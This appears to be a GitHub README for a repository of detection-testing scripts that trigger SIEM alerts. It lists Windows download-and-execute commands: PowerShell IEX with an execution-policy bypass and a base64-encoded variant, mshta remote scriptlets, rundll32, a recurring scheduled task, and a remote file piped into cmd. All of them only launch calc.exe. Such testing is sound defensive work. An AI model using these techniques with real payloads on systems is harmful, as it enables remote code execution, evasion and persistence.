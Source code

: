 # runcalc
Just some basic scripts for testing SIEM alerts


# Invoke-Expression
This powershell script just launch calc.exe using methods to download and execute various malicious payloads.  Below are some of the ways to call this.

### Standard Execution
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/losttroll/runcalc/main/invokecalc.ps1');invoke-calc"

### Base 64 Encoded Execution
powershell -noprofile -noninteractive -executionpolicy bypass -encodedcommand cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBlAHgAZQBjACAAQgB5AHAAYQBzAHMAIAAtAEMAIAAiAEkARQBYACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AcgBhAHcALgBnAGkAdABoAHUAYgB1AHMAZQByAGMAbwBuAHQAZQBuAHQALgBjAG8AbQAvAGwAbwBzAHQAdAByAG8AbABsAC8AYgBsAHUAZQB0AGUAcwB0AHMALwBtAGEAaQBuAC8AaQBuAHYAbwBrAGUAYwBhAGwAYwAuAHAAcwAxACcAKQA7AGkAbgB2AG8AawBlAC0AYwBhAGwAYwAiAA==

## MSHTA
The command will use MSHTA to download a payload that executes calc.exe

### Remote Payload
mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/losttroll/runcalc/main/calc.sct").Exec();close();

### Local Payload
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""calc.exe"""))</script>'"

### Local Payload w/ Powershell
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""powershell.exe%20-nop%20-Command%20calc.exe"""))</script>'"

### Download and Display the Payload
mshta https://raw.githubusercontent.com/losttroll/runcalc/main/calc.sct

## RunDLL32.exe
rundll32.exe pcwutl.dll,LaunchApplication C:\Windows\System32\calc.exe

## Task Scheduler
schtasks /Create /F /SC MINUTE /MO 3 /ST 11:50 /TN CalcLocalTask /TR "calc.exe"

## Download and Execute Script
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/losttroll/runcalc/main/nothingtoseehere.txt') | Out-File eula.txt; cmd /c $(type .\eula.txt)

